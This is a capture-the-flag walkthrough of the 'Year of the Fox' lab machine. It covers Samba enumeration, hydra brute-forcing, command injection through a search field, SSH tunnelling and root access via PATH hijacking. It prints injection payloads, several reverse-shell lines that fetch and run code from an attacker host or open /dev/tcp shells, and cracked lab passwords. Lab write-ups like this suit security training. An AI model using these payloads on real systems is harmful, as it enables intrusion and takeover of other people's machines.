year of the fox
Year of the Fox
Enumeration
Rustscan for Open Ports:

Nmap with Specific Ports:

At this point, we see there are 3 open ports. Generally speaking we have 2 ways to access the machine Samba & Webserver.
Webserver Enumeration:

When I opened the website, it asks for credentials. I checked the request in burpsuite. We have a simple GET request in the begining.

Once I forward this, we are presented with the Login Page. This is a header based form which uses GET request. When I entered username as admin & password as password as a dummy request. The following is the request.
Note: It uses Basic Authorization that converts the username & password to base64.

This is a header based form which uses GET request.
We can decode the Base64 string to be sure.

This base64 string must be verified in the server side. Currently we do not have any credentials. So lets continue our enumeration.
Samba Enumeration:
smbclient:

I enumerated to list the samba shares. I found an intresting share called yotf. However, its not accessible without any credentials.
I checked guest Login was also disabled.
I will use enum4linux to get maximum information about the system from the samba share.
enum4linux:


As we can see above, we found 2 users.
Users Found:
fox
rascal
After checking each avenue, we conclude that at this point, the CTF needs brute force. We can either choose to Brute force the Website or the Samba share with the known users above.
Note: I tried various things, and finally we found a way by brute forcing the website with the user rascal.
Website Brute forcing:
Link: https://github.com/gnebbia/hydra_notes
I will use hydra to brute force http-get request. We can use any of the following syntax.
hydra -l rascal -P /usr/share/wordlists/rockyou.txt 10.10.230.171 http-get
hydra -l rascal -P /usr/share/wordlists/rockyou.txt 10.10.230.171 http-get /
hydra -l rascal -P /usr/share/wordlists/rockyou.txt 10.10.230.171 http-head
hydra -l rascal -P /usr/share/wordlists/rockyou.txt 10.10.230.171 http-head /

Credentials Found:
Username: rascal
Password: hello2u
Website Enumeration Contd:
I used the above credentials and continued the website enumeration.

We landed on a page called Rascal's Search System. I clicked on search without any arguments.

We could see some files. I also noticed there is a Client Side Filter in place that prevents certain keyboard entries like / & any special charecters.
We should be able to bypass the Client Side Filter by using burpsuite and capturing the request in the repeater.
Burpsuite Website Analysis:
I entered a dummy search ‘abcdef’ and captured the request in Burpsuite.

Lets send this to repeater and continue our analysis.

After researching a lot I found that the following payloads were working for command injection. However, we won't get the output on the webpage (For the 1st Payload) so we will use ping command and verify with wireshark/tcpdump.
The 2nd Payload: Shows output on the webpage.
Payload 1: \";pwd \"
Payload 2: \";pwd\n
Note: Both the payloads have to be inserted inside the double quotes: “abcdef".
Replace abcdef with our payload
Payload 2:
Using Payload 2 we can see the result in the website. So I will use the pwd command.
{
"target":"\";pwd\n"
}

Payload 1:
Using Payload 1 as we cannot see the results in the webpage. I will use ping command and tcpdump.
{
"target":"\";ping -c 1 10.11.72.31;\""
}

Verified that Ping from the target is reaching us.
tcpdump ip proto \\icmp -i tun0

Therefore, we have successfully achieved RCE (Remote Command Execution) on the target machine.
Foothold
From here, we should easily be able to get a reverse shell connection from the target machine using our RCE exploit.
However, I faced another problem. There is a Server Side Filter that prevents certain keys like $..etc
I tried bash reverse shell, nc reverse shell.
Both of them didn't work.
Working Solutions(3):
Solution-1: We can host a local socat binary in local webserver and get it to the machine and run it to create a socat reverse shell.
Latest Version - 1.7.4.3
https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/socat (Version - 1.7.3.0)
https://github.com/3ndG4me/socat/releases (Version - 1.7.3.3)
Important Note: The Latest version of Socat requires libssl.so.3 library file to run. However, the file is not present in the target machine. I have cheked. Thus, we need to use an older version of socat for this CTF.
Any one from the above links will work.

{
"target":"\"; wget -q http://10.11.72.31/socat -O /tmp/socat; chmod +x /tmp/socat; /tmp/socat exec:'bash -li',pty,stderr,sigint,setsid,sane tcp:10.11.72.31:5555; \n"
}

Solution-2: We can encode the above not working bash/nc reverse shell in base64 and decode them in server side then pipe to bash.
I encoded the bash reverse shell: /bin/bash -i >& /dev/tcp/10.11.72.31/6666 0>&1

{
"target":"\"; echo 'L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzEwLjExLjcyLjMxLzY2NjYgMD4mMQ==' | base64 -d | bash \n"
}

Solution-3: We can use a shell script having bash reverse shell hosted in local webserver and get it to the machine and run the script.

{
"target":"\"; curl http://10.11.72.31/rev.sh | bash \n"
}

We then find the web flag in the following directory.

Privilege Escalation
Running the netstat command gives us an intresting result.

SSH is running on the machine on port 22. However, it is only accessible to localhost(127.0.0.1).
Any external communication to port 22 is thus blocked by the firewall.
Here we will use Socat to Tunnel the localhost:22 to a different selected unsed port on the machine say 9090.
Once the Tunnel is successful, attacker can connect to port 9090 --→ which will be tunneled to localhost:22.
Thus access the SSH server on port 9090.
Socat Tunnelling:
I will use the socat binary i uploaded in the Foothold process. (Solution-1).
socat tcp-listen:9090,reuseaddr,fork tcp:localhost:22

Now From my machine we test if the tunneling was successful.
I used Nmap scan to test.

As we can see, our tunneling was successful.
Next, I look the following file to know about SSH users.
/etc/ssh/sshd_config
more /etc/ssh/sshd_config

Next I brute force the SSH user fox with hydra
SSH Brute forcing:
The following hydra command is used.
hydra -l fox -P /usr/share/wordlists/rockyou.txt -s 9090 10.10.35.159 ssh

Thus, we found a SSH credential.
SSH Credentials Found
Username: fox
Password: ginger
Lateral Movement-1:
We login into fox user using the SSH tunnel.
ssh fox@10.10.35.159 -p 9090

Next, we get the user flag in the home directory.

Lets check sudo on the Target Machine:

Normal Sudo

As we can see, the secure_path is not present on the target machine. This means if any executible uses any program without absolute path. We can use this to plant our program in a different path.
Lets examine the /usr/sbin/shutdown binary by taking it to kali machine.
Target Machine: cp /usr/sbin/shutdown /tmp
Attacker Machine: scp -P 9090 fox@10.10.93.57:/tmp/shutdown .
Examine the Shutdown Binary using radare2:
radare2 -AAA <Filename>
pdf @main

As we can see, the poweroff is called without absoulute path.
We need to copy the /bin/bash binary to /tmp and rename as poweroff and add the /tmp path while calling the shutdown using sudo.
cp /bin/bash /tmp/poweroff
Then run the sudo command along with PATH as follows:
sudo "PATH=/tmp:$PATH" /usr/sbin/shutdown

Thus, we have root access & can get the root flag.

I searched for root flag in the /root directory but it contained a text “Not here -- go find!”
Thus I used a find command to try locate the flag.
find / -type f -name "*flag*" 2>/dev/null
But it didn't find any result.
Finally I used the followng find command to get the flag.
find / -type f -name "*root*" 2>/dev/null
